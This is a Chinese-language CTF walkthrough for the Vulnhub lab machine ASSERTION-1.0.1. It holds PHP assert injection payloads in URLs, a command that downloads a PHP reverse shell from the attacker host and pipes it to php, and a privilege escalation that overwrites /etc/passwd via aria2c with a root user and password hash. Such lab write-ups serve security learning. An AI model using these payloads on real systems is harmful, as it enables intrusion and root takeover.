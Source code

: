 ```yaml
---

title: Vulnhub 495	ASSERTION-1.0.1
date: 2020-06-28 
---
```


考点：LFI,GTFOBins 

靶机链接：<https://www.vulnhub.com/entry/assertion-101,495/>
<!--more-->
## 环境配置

| 名称            | IP             |
| --------------- | -------------- |
| Kali Linux      | 192.168.88.128 |
| ASSERTION-1.0.1 | 192.168.88.129 |

## 初步打点

### 端口扫描

```bash
$ export rip=192.168.88.129
$ sudo nmap -v -A -p- $rip
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6e:ce:aa:cc:02:de:a5:a3:58:5d:da:2b:ef:54:07:f9 (RSA)
|   256 9d:3f:df:16:7a:e1:59:58:84:4a:e3:29:8f:44:87:8d (ECDSA)
|_  256 87:b5:6f:f8:21:81:d3:3b:43:d0:40:81:c0:e3:69:89 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Assertion
```

### WEB测试

#### 端口80

![1](https://www.vulnhub.cn/walkthrough/495/1.webp)

![2](https://www.vulnhub.cn/walkthrough/495/2.webp)

大概率存在LFI，数次尝试失败，[盲猜asset的LFI，参考](https://book.hacktricks.xyz/pentesting-web/file-inclusion#lfi-via-phps-assert)

```bash
http://192.168.88.129/index.php?page=./blog' and die(show_source('/etc/passwd')) or '
http://192.168.88.129/index.php?page=./blog' and die(system('pwd')) or '
```

![3](https://www.vulnhub.cn/walkthrough/495/3.webp)

![4](https://www.vulnhub.cn/walkthrough/495/4.webp)

## 获得权限

本地Kali 监听端口444

修改`/usr/share/laudanum/php/php-reverse-shell.php`中的`ip`和`port`，使用`python -m http.server 80`开启web服务

下载反弹shell脚本并执行

```bash
http://192.168.88.129/index.php?page=./blog' and die(system("curl http://192.168.88.128/php-reverse-shell.php|php")) or '
```

![5](https://www.vulnhub.cn/walkthrough/495/5.webp)

成功接收反弹shell


## 提权

运行linpeas.sh发现

![6](https://www.vulnhub.cn/walkthrough/495/6.webp)

[上GTFOBins查询了一下](https://gtfobins.github.io/gtfobins/aria2c/)

可以aria2c覆盖`/etc/passwd`文件

先查看`$ cat /etc/passwd`内容，使用openssl生成密码hash，密码是`password`

![7](https://www.vulnhub.cn/walkthrough/495/7.webp)

再在本地web目录passwd文件中添加

```bash
ii:$1$Pn/iC2y8$HoH1HDv3n0uGse8fQUgvR.:0:0:root:/root:/bin/bash
```
覆写靶机`passwd`文件

```bash
$ aria2c -o /etc/passwd "http://192.168.88.128/passwd"  --allow-overwrite=true
```

写入后切换ii，密码输入`password`

![8](https://www.vulnhub.cn/walkthrough/495/8.webp)

